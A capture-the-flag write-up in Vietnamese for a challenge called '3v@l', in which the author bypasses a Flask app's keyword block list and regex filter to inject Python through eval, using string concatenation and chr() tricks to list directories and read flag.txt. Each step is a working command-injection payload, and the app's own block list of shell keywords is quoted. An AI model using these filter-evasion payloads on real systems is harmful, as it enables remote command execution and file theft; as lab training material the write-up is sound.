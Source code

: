 # 3v@l

![img](295)

Truy cập website:

![img](296)

Dựa vào gợi ý hiển thị từ box, tôi đã thử nhập `PRT*RATE*TIME(10000*23*12)` và click `Execute`:

![img](297)

=> Thông báo lỗi `name 'PRT' is not defined`. Tiếp theo tôi thử nhập:

    <script>alert("1")</script>

![img](298)

=> Thông báo lỗi `Detected forbidden keyword ''`.

Thử xem source code:

![img](299)

Dựa vào source code, tôi biết rằng website sử dụng python ở phía back-end, với đoạn chú thích:

    <!--
        TODO
        ------------
        Secure python_flask eval execution by 
            1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
            2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
    -->

Tôi sẽ thử nhập payload để xem biện pháp bảo vệ `python_flask eval execution` có hoạt động không:

    __import__('os').popen('ls').read()

![img](300)

=> Như vậy, tôi cần tìm cách bypass qua bộ lọc này. Tôi thử nhập payload sau:

    __import__('o'+'s').popen('l' + 's').read()

![img](301)

=> Website đã liệt kê ra `app.py`, `static` và `templates`. Tiếp theo, tôi muốn thử liệt kê ra xem những gì có trong thư mục `/`: 

    __import__('o'+'s').popen('l' + 's' + ' /').read()

![img](302)

=> Có vẻ website đã lọc cả ký tự `/`. Ý tưởng tiếp theo của tôi là tôi thử sử dụng hàm `chr()` để ánh xạ sang ký tự `/`:

    __import__('o'+'s').popen('l' + 's ' + chr(47)).read()

![img](303)

=> Thành công tìm ra file `flag.txt`. Payload cuối cùng của tôi sẽ là: 

    __import__('o'+'s').popen('c' + 'at ' + chr(47) + 'fl' + 'ag' + chr(46) + 't' + 'xt').read()

![img](304)





